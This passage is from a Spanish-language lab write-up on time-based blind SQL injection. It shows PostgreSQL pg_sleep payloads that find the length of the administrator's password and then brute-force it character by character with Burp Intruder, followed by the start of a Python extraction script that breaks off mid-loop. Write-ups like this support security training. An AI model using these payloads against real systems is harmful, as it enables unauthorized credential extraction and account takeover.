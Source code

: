 Filtramos por `Response received` mas alta, ya que es la que se demora más.

![Respuesta 3]({{site.url}}/images/SQLi/sqli-14/respuesta3.png)

## Averiguar longitud de password

El payload es tipo `entero`, ya que vamos a averiguar cuantos caracteres tiene el password de un usuario. tener presente colocar `Resouce Pool` en 1 para que realice el ataque 1 por 1.

```sql
' || (select case when (username='administrator' and LENGTH(password)>payload) then pg_sleep(10) else pg_sleep(-1) end from users)--
```

![Intruder 4]({{site.url}}/images/SQLi/sqli-14/intruder4.png)

La longitud de la contraseña de `administrator` es de 20 caracteres.

![Respuesta 4]({{site.url}}/images/SQLi/sqli-14/respuesta4.png)

## Ataque de Fuerza Bruta al campo Password

Utiliza una consulta que verifique si un carácter en una posición específica coincide con una letra. Si demora en responder, la consulta la letra pertenece al password.

```sql
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--
```

Realizamos la consulta desde el `Intruder` para enumerar los caracteres. NO olvidar `url encode` la url

![Intruder 5]({{site.url}}/images/SQLi/sqli-14/intruder5.png)

Filtramos por las que más se demoran en responder

![Respuesta 5]({{site.url}}/images/SQLi/sqli-14/respuesta5.png)

## Login

![Login]({{site.url}}/images/SQLi/sqli-14/login.png)

## Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-14/aprobado.png)

# Codigo Python

```sql
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
```
